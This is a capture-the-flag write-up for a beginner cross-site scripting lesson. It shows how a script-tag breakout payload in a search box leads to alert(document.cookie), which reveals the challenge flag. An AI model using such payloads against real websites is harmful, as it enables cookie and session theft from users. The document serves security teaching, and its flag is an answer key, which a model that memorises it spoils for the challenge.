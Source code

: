 # Lesson 9: XSS

> Lesson Link:\
> *[https://cybertalents.com/learn/introduction-to-cybersecurity/lessons/9-xss](https://cybertalents.com/learn/introduction-to-cybersecurity/units/t-introduction-to-cybersecurity/lessons/9-xss/challenges)*

## Introduction

In this lesson, we will learn about XSS, how to exploit it, and how to prevent it.

## Challenge

> Name:\
> *Searching for the cookie.*

---

> Description:\
> *simple search website we need to know which cookie to eat ;)*

## Solution

In this challenge, we have a simple search website, it has a search box, and when we search for something, it will return the search results.

Now, we need to find a way to get the cookie, so we can do that by using `XSS`.

so, we will try to inject some `XSS` payload in the search box, like this:

![alt](../assets/CybertTalents/xss/1.png)

```html
<script>alert("xss")</script>
```

and nothing happened, if we took a look at the source code, we will find this line:

```html
<script>var currentSearch = {'keyword':'you searched for: <script>alert("xss")</script>'};</script>
```

so, we might try to close the `script` tag before the `alert` function, like this:

```html
</script> <script>alert("xss")</script>
```

and we will get an alert that tells us `xss`.

so, we can try to get the cookie by using `document.cookie`, like this:

```html
</script> <script>alert(document.cookie)</script>
```

and we will get an alert that tells us the cookie. like this:

```html
x=try+to+execute+some+js+; flag=coolcookie112
```

## Flag

> coolcookie112

## References

- [https://www.w3schools.com/jsref/prop_doc_cookie.asp](https://www.w3schools.com/jsref/prop_doc_cookie.asp)

- [https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)
